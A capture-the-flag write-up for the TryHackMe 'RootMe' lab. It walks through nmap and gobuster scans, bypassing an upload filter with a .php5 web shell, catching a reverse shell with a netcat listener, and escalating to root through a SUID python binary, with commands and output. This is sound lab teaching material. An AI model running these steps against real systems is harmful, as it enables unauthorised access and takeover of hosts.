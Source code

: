 # RECON
## Nmap
```shell
┌─[✗]─[noxi0us@parrot]─[~]
└──╼ $sudo nmap -sS -sV 10.10.211.17
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 13:20 IST
Nmap scan report for 10.10.211.17
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.86 seconds

```

## Gobuster
```shell
┌─[✗]─[noxi0us@parrot]─[~]
└──╼ $gobuster dir -u http://10.10.211.17 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.211.17
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/27 13:23:15 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.211.17/css/]
/index.php            (Status: 200) [Size: 616]                               
/js                   (Status: 301) [Size: 309] [--> http://10.10.211.17/js/] 
/panel                (Status: 301) [Size: 312] [--> http://10.10.211.17/panel/]
/server-status        (Status: 403) [Size: 277]                                 
/uploads              (Status: 301) [Size: 314] [--> http://10.10.211.17/uploads/]

```
# Gain Access
- we have a hidden directory /panel/
- we will upload our file to get shell on our machine.
- We cannot upload php file on Web Application. We have to bypass it.


- We can change extension to php5 and it uploads files successfully
- tehn start netcat listener at given port 
- Goto /uploads directory and open php5 file.

```shell
┌─[✗]─[noxi0us@parrot]─[~/Desktop/tools/TRYHACKME/CTF/RootMe]
└──╼ $sudo nc -lvnp 1234
[sudo] password for noxi0us: 
listening on [any] 1234 ...
connect to [10.8.22.172] from (UNKNOWN) [10.10.85.148] 33340
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:49:55 up 41 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data

```

- To get tty shell

`python -c 'import pty; pty.spawn("/bin/bash");'`


- Search for file user.txt
`find / -type f -name user.txt 2> /dev/null`

# Priv esc

- now search for SUID permissions and find weird looking path.

`find / -user root -perm /4000 2> /dev/null`

`find / type -f -user root -perm -u=s 2> /dev/null`

- we see that /usr/bin/python is available
- Now search suid permission bypass on Gtfobins.github.io

![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/06a44f18-5633-4940-8fb9-10432ccd4f99)

- To get tty shell


`python -c 'import pty; pty.spawn("/bin/bash");'`


```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## flag
```shell
bash-4.4$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

# whoami 
root

# find / -type f -name *.txt 2> /dev/null
find / -type f -name *.txt 2> /dev/null
/root/root.txt
cat root.txt
THM{*******************}
```
